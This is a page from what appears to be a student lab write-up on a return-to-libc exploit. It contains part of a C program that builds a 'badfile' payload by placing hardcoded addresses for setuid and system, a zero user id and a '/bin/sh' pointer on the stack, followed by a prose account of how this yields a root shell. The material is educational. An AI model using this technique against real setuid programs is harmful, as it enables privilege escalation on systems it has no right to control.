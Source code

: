 \documentclass[14pt]{extarticle}
\begin{document}
\begin{lstlisting}[language=c]
	// Since setuid will expect to return and run the next command on the stack after it has finished running,
	// the system command is placed directly below the setuid command on the stack
	*(long *) &buf[ret_addr + 4] = 0xb7e42da0 ; //system()

	// Setuid, if ran in a stack that was setup correctly, could expect to find the userid as the first parameter in the stack frame
	// for a new stack frame, the parameters would start below the previous base pointer and return address.
	// so the setuid would look up 8 bytes from what it think's is it's stack base to find the first parameter
	// However, since the setuid command was jumped to, not called, it will be running the current stack frame.
	// So to allow it to read in a 0 for the userid, I need to set the value 8 bytes below the calll of the setuid function.
	*(long *) &buf[ret_addr + 8] = 0x00 ; // uid = 0

	// Similar to the setuid function, the system call will look for it's first parameter 8 bytes up from when it was called, which is 4 bytes after the return address.
	// so the location of the environment variable would appropriately fit 12 bytes above the return address.
	*(long *) &buf[ret_addr + 12] = (unsigned int)shell+environment_adjust; // "/bin/sh"

	// the exit command was not used in this program since it would need to be placed directly after the system call,
	// however, since the parameter for the setuid function expects it's first parameter directly after the system call,
	// there isn't a place to put the exit command before the parameters need to be called.

	// after the buffer is setup, Write the file and exit
	fwrite(buf, sizeof(buf), 1, badfile);
	fclose(badfile);
}
\end{lstlisting}
To call the setuid function I first found the location of the setuid function in gdb, and then set the return address in my exploit to be the setuid function. This means I had to push my system, environment variable, and exit calls down 4 bytes in the buffer. Setuid requires a parameter of the user id that it would set to be the uid. Like the system command, it also gets this location from the base pointer plus 8. Luckily since all of my previous commands had been pushed down 4 bytes, this didn't effect my system and environment locations. However, This created a slight problem for the exit command. The exit command was placed right after the system call, which means which they were all pushed down to make room for the setuid command, the exit command was now at the return address plus 8. And Since the return address plus 8 is the same memory location as the base pointer plus 8, it meant that my setuid command need the uid to be placed in the same location that the exit command was located. Since the exit command was optional, I set the location it was at to hold the value 0. Which allowed the program to execute a root shell, but meant it would exit with a segmentation fault rather than a clean exit.
\end{document}
